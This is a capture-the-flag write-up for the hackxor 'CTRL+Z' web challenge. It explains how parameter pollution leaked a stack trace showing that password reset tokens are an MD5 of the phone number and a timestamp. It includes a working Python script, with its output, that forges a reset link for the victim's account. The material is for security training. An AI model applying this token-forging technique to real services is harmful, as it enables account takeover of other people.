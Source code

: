 ## CTRL+Z (Web, 350pts)

> Delete an answerphone message
>
> [http://hackxor.net/mission?id=6](http://hackxor.net/mission?id=6)

&nbsp;

> Due to a series of unfortunate circumstances, there is a regrettable message on my new boss's answerphone. It's extremely important that this message is deleted before she has a chance to listen to it. Her phone number is 01563482431. To get familiar with the company phone system, you can use my own account: 01565664832:moosefl0ti114. Do not listen to the message. 
> 
> *The target company is known to have strict password requirements, so there's probably no point in trying a bruteforce attack -- admin*
> 
> [Go to target](http://phonecorp.hackxor.net/)

We start by checking the functions of the application and the requests that are being made. After fuzzing the parameters of the requests we see that the application returns the stack trace when an error occurs. Ommiting a POST parameter from the request would throw an exception.

![](login.jpg)

This did't work on the `/reset` route. After some lost time trying to decode the `s` parameter (binary session identifier), we thought that [paramter pollution](https://www.owasp.org/index.php/Testing_for_HTTP_Parameter_pollution_(OTG-INPVAL-004)) might work, since Python stores all given values to a list and that could cause an error, since the application would except a string.

![](reset-error.jpg)

Indeed this worked and from the error message we see the way the password reset token is created.

```python
hashlib.md5((args['phone']+'|'+str(int(time.time()))).encode()).hexdigest()
```

So we can generate a valid token given the phone number and the timestamp the request was made.

```python
import requests
import hashlib
from datetime import datetime, timedelta
from email.utils import parsedate

phone = '01563482431'

response = requests.post('http://phonecorp.hackxor.net/reset', data={'phone': phone})
date = parsedate(response.headers['Date'])[:6]
epoch = (datetime(*date) - datetime(1970, 1, 1)).total_seconds()
token = hashlib.md5((phone+'|'+str(int(epoch))).encode()).hexdigest()
print '[+] Password reset link: http://phonecorp.hackxor.net/reset?reset_token={}'.format(token)
```

```bash
$ python solve.py
[+] Password reset link: http://phonecorp.hackxor.net/reset?reset_token=4781565ec7451f36dce1b01a91ebee8b
```

After reseting the password, we login, delete the audio message and get awarded with the flag.

![](solution.jpg)
